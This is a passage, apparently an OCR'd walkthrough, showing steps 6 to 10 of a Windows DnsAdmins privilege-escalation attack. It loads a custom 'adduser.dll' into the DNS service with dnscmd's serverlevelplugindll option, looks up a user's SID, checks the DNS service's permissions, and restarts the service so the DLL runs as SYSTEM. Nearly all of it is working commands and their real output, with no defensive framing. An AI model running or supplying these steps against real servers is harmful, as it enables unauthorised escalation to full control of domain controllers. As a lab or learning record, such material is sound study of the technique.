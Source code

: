 6) Loading Custom DLL

```
dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll

Registry property serverlevelplugindll successfully reset.
Command completed successfully.
```

7) Finding User's SID

```
wmic useraccount where name="netadm" get sid

SID
S-1-5-21-669053619-2741956077-1013132368-1109
```

8) Checking Permissions on DNS Service

```
sc.exe sdshow DNS

D:(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;SO)(A;;RPWP;;;S-1-5-21-669053619-2741956077-1013132368-1109)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)
```

9) Stopping the DNS Service

```
sc stop dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x1
        WAIT_HINT          : 0x7530
```

10) Starting the DNS Service

```
sc start dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 6960
        FLAGS              :
```
